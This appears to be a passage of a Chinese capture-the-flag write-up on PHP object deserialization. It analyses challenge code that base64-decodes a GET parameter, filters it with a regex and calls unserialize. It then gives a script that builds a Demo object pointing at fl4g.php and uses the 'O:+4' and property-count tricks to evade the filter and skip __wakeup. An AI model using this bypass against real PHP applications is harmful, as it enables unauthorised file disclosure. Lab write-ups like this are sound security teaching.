 告诉我们，这个flag在fl4g.php这个页面中，在

```
function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
```

中，如果Demo类被销毁，那么就会高亮显示file所指向的文件的内容。

那么Demo中还有一个函数就是**_wakeup()**，这个函数作用就是**反序列化**时，会自动执行，所以，要想反序列化，那么必须要绕过这个函数。

```php
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
```

这里进行了变量的传入，使用的方法是GET传参，源码分析：

1.首先base64加密

2.使用了preg_match()匹配函数，如果匹配上了，就结束，否则

```
@unserialize($var);
```

所以这里要想办法绕过这个匹配函数



#### 解题步骤

通过上述源码分析，我们要干下面几件事

1.preg_match()匹配绕过

2.unserialize() 反序列化执行_wakeup()的绕过

```php
<?php 
class Demo { 
    private $file = 'fl4g.php';
}

$x= serialize(new Demo);
$x=str_replace('O:4', 'O:+4',$x);//绕过preg_match()
$x=str_replace(':1:', ':3:',$x);//绕过__wakeup()
echo base64_encode($x);
?>
```
